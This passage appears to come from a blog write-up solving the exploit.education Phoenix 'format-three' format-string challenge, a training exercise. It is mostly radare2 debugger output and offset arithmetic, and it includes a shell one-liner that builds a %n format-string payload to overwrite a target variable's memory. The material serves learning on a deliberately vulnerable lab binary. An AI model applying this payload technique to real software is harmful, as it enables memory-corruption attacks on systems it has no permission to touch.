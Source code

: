 fvalue: -307.0
float:  nanf
double: nan
binary  0b1111111111111111111111111111111111111111111111111111111011001101
trits   0t11112220022122120101211020120210210102120
[0x0804855e]> ? 0x1145 - 0x178
int32   4045
uint32  4045
hex     0xfcd
octal   07715
unit    4.0K
segment 0000:0fcd
string  "\xcd\x0f"
fvalue: 4045.0
float:  0.000000f
double: 0.000000
binary  0b0000111111001101
trits   0t12112211
{% endhighlight %}

{% highlight shell %}
$ echo $(printf "\x44\x98\x04\x08AAAA\x45\x98\x04\x08AAAA\x46\x98\x04\x08AAAA\x47\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%244x%n%51x%n%4045x%n > pattern
{% endhighlight %}

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7eded4b]> aas
Cannot analyze at 0x080485e0
[0xf7eded4b]> db 0x0804855e
[0xf7eded4b]> px/xw @ obj.changeme
0x08049844  0x00000000                                   ....
[0xf7eded4b]> dc
Welcome to phoenix/format-three, brought to you by https://exploit.education
hit breakpoint at: 804855e
[0x0804855e]> px/xw @ obj.changeme
0x08049844  0x11457845                                   ExE.
[0x0804855e]> ? 0x64 - 0x1145
int64   -4321
uint64  18446744073709547295
hex     0xffffffffffffef1f
octal   01777777777777777767437
unit    16.0E
segment fffff000:0f1f
string  "\x1f\xef\xff\xff\xff\xff\xff\xff"
fvalue: -4321.0
float:  nanf
double: nan
binary  0b1111111111111111111111111111111111111111111111111110111100011111
trits   0t11112220022122120101211020120210120220220
[0x0804855e]> ? 0x1164 - 0x1145
int32   31
uint32  31
hex     0x1f
octal   037
unit    31
segment 0000:001f
string  "\x1f"
fvalue: 31.0
float:  0.000000f
double: 0.000000
binary  0b00011111